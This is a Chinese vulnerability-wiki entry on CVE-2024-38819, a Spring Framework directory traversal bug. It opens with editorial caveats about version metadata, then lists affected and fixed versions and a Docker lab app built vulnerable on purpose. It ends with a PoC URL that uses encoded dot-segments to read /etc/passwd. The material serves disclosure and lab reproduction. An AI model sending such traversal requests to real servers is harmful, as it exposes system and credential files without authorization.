

## 核对与使用边界

- 配置边界：此条讨论 RouterFunctions 与 FileSystemResource，实验还涉及符号链接；不能将所有 Spring MVC/WebFlux 项目统称受影响。clone 后 cd vuln 的目录上下文不完整，实验依赖/路径需核。修复列表 5.3.41 不应作为受影响版本。

- 明确更正：原 version 字段取自安全/修复版本清单，不能当受影响版本。已移入 version_notes 保留来源值；应逐分支核对原公告，不能把修复版反列为漏洞版。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：正文影响5.3–40/6.0–24/6.1–13、安全5.3.41/6.0.25/6.1.14；元数据取安全5.3.41

代码与实验材料：Docker/Gradle/RouterFunctions完整，明确FileSystemResource与实验symlink；clone后cd vuln缺仓库父路径

来源证据范围：官方Spring公告和masa42PoC，NVD链接只是计算器非漏洞记录

- **事实待核（1）**：版本元数据误把安全版作影响；依据：version:SpringFramework5.3.41来自安全列表。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：概述漏关键资源类型和实验拓扑；依据：仅WebMvc.fn/WebFlux.fn静态文件不够，实际FileSystemResource及符号链接配置要写明，不能所有静态服务泛化。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（3）**：构建和修复分支细节不足；依据：clone后cdvuln路径不全，商业/不支持分支的升级可得性需说明。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Spring Framework 特定条件下目录遍历漏洞 CVE-2024-38819

## 漏洞描述

Spring 框架是 Java 平台的一个开源的全栈应用程序框架和控制反转容器实现。2024 年 10 月，Spring 官方发布公告披露 CVE-2024-38819 Spring Framework 特定条件下目录遍历漏洞。该漏洞类似 CVE-2024-38816，当 Spring 通过 WebMvc.fn 或者 WebFlux.fn 对外提供静态文件时，攻击者可构造恶意请求遍历读取系统上的文件。

参考链接：

- https://github.com/masa42/CVE-2024-38819-POC
- https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N&version=3.1
- https://spring.io/security/cve-2024-38819

## 漏洞影响

影响范围：

```
Spring Framework 5.3.0 - 5.3.40
Spring Framework 6.0.0 - 6.0.24
Spring Framework 6.1.0 - 6.1.13
其他更老或者官方已不支持的版本
```

安全版本：

```
Spring Framework 5.3.41
Spring Framework 6.0.25
Spring Framework 6.1.14
```

## 环境搭建

通过项目 [CVE-2024-38819-POC](https://github.com/masa42/CVE-2024-38819-POC) 搭建一个 Spring Boot 3.3.4（基于 Spring Framework 6.1.13） 漏洞环境：

```
git clone https://github.com/masa42/CVE-2024-38819-POC.git
cd vuln
docker build -t cve-2024-38819-poc .
docker run -d -p 8080:8080 --name cve-2024-38819-poc cve-2024-38819-poc
```

Dockerfile

```
# Build stage
FROM gradle:7.6.1-jdk17 AS build

WORKDIR /home/gradle/project
COPY --chown=gradle:gradle . .

RUN gradle build --no-daemon

# Execution stage
FROM openjdk:17-jdk-slim

WORKDIR /app
COPY --from=build /home/gradle/project/build/libs/*.jar app.jar

# Directory for storing static files
RUN mkdir /static
# Root directory for FileSystemResource
RUN mkdir /app/static
# Symbolic link from the FileSystemResource directory to the static files directory
RUN ln -s /static /app/static/link

EXPOSE 8080

ENTRYPOINT ["java", "-jar", "app.jar"]
```

启动环境后，访问 `http://your-ip:8080` 即可，无主页，显示 404。

## 漏洞复现

构建一段代码，使 Spring Framework 通过 WebFlux.fn 提供静态文件访问功能。build.gradle 中的 `dependencies` 使用了 `spring-boot-starter-webflux`，表明这是一个基于 Spring WebFlux 的项目，而非传统的 `spring-boot-starter-web`。

build.gradle

```
plugins {
    id 'org.springframework.boot' version '3.3.4'
    id 'io.spring.dependency-management' version '1.0.15.RELEASE'
    id 'java'
}

group = 'com.example'
version = '0.0.1-SNAPSHOT'
sourceCompatibility = '17'

repositories {
    mavenCentral()
}

dependencies {
    implementation 'org.springframework.boot:spring-boot-starter-webflux:3.3.4'
}

tasks.named('test') {
    useJUnitPlatform()
}

bootJar {
    mainClass.set('com.example.PathTraversalDemoApplication')
}
```

./src/main/java/com/example/PathTraversalDemoApplication.java

```java
package com.example;

import org.springframework.core.SpringVersion;
import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;
import org.springframework.context.annotation.Bean;
import org.springframework.core.io.FileSystemResource;
import org.springframework.web.reactive.function.server.RouterFunction;
import org.springframework.web.reactive.function.server.RouterFunctions;
import org.springframework.web.reactive.function.server.ServerResponse;

@SpringBootApplication
public class PathTraversalDemoApplication {

    public static void main(String[] args) {
        SpringApplication.run(PathTraversalDemoApplication.class, args);
    }

    @Bean
    public RouterFunction<ServerResponse> staticResourceRouter() {
        System.out.println("Spring Framework Version: " + SpringVersion.getVersion());
        return RouterFunctions.resources("/static/**", new FileSystemResource("/app/static/"));
    }
}
```

poc：

```
http://your-ip:8080/static/link/%2e%2e/etc/passwd
```




## 漏洞修复

1. 建议更新至最新版本。
2. 排查代码中是否有类似使用，结合实际情况可确认是否受影响。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
